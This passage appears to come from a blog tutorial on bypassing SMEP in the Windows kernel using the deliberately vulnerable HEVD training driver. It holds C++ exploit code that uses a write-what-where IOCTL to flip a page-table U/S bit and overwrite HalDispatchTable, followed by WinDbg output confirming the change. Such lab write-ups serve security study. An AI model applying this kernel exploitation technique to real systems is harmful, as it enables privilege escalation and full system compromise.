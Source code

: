 ```cpp
	DeviceIoControl(hHEVD, 0x22200B, &WhaWhe, sizeof(WRITE_WHAT_WHERE), nullptr, 0, &lpBytesReturned, nullptr);
	
	WhaWhe.What = nullptr;
	WhaWhe.Where = nullptr;
	
	printf("\n[+] PTE Details -> 0x%p\n", Pte_details);

	printf("\n[0x4 bit form U to K]\n");
	// Clean U/S bit
	*(UINT64*)&Pte_details &= ~(0x4);
	printf("\n[+] PTE Details -> 0x%p\n", Pte_details);


	WhaWhe.What = (void*)&Pte_details;
	WhaWhe.Where = (void*)ShellcodePageBase;
	DeviceIoControl(hHEVD, 0x22200B, &WhaWhe, sizeof(WRITE_WHAT_WHERE), nullptr, 0, &lpBytesReturned, nullptr);
	printf("\n[Page changed to Kernel Mode]\n");

	WhaWhe.What = nullptr;
	WhaWhe.Where = nullptr;

...
```

![](imgs/blog/2SmepBypass/20250420173325.png)

Let’s check the result in `WinDbg`:
```WinDbg
nt!DbgBreakPointWithStatus:
fffff802`fef58300 cc              int     3
0: kd> bp nt!KeQueryIntervalProfile
0: kd> g
Breakpoint 0 hit
nt!KeQueryIntervalProfile:
fffff802`ff342410 4883ec48        sub     rsp,48h
5: kd> dq ntkrnlmp!HalDispatchTable+0x8 L1
fffff802`ff11a7d8  0000009d`85280000
5: kd> !pte 0000009d`85280000
                                           VA 0000009d85280000
PXE at FFFFF6FB7DBED008    PPE at FFFFF6FB7DA013B0    PDE at FFFFF6FB40276148    PTE at FFFFF6804EC29400
contains 0130000151A36867  contains 014000010DE37867  contains 0B4000014BE59867  contains 27D00001523C6863
pfn 151a36    ---DA--UWEV  pfn 10de37    ---DA--UWEV  pfn 14be59    ---DA--UWEV  pfn 1523c6    ---DA--KWEV
```
